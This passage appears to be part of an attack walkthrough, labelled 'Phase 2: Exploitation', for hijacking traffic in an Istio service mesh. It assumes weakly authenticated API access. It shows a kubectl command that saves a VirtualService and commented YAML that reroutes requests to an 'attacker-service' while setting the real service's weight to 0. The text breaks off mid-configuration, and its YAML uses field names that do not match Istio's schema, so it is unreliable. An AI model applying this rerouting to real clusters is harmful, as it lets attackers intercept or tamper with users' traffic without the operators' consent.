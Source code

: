 **Phase 2: Exploitation - Configuration Manipulation (Assuming API access is gained)**

**Scenario:**  Let's assume we found an unprotected or weakly authenticated API endpoint that allows us to modify VirtualServices (Istio's routing configuration).

1.  **Get the Current VirtualService Definition (as a baseline):**

    ```bash
    kubectl get virtualservice -n <YOUR_NAMESPACE> <YOUR_VIRTUALSERVICE_NAME> -o yaml > original_vs.yaml
    ```
    **Explanation:**  This command retrieves the YAML definition of an existing VirtualService in the specified namespace and saves it to a file.  This is essential for understanding the current routing rules and for restoring the original configuration after the exploitation.
    **Expected Output:** A YAML file named `original_vs.yaml` containing the full specification of the VirtualService.
    **Why:**  Having a backup of the original configuration is crucial for safe exploitation and rollback.

2.  **Modify the VirtualService to Redirect Traffic:**

    ```bash
    # Example: Redirect traffic from service-a to an attacker-controlled service
    # Modify original_vs.yaml to change the destination of requests
    # Replace the original destination with an attacker-controlled service
    # e.g., add a new destination entry pointing to the attacker's service IP and port

    # Example modification (hypothetical attacker-controlled service):
    # ...
    # destinations:
    # - host: service-a
    #   port:
    #     number: 80
    #   weight: 0 # Reduce weight of the original service
    # - host: attacker-service.default.svc.cluster.local
    #   port:
    #     number: 80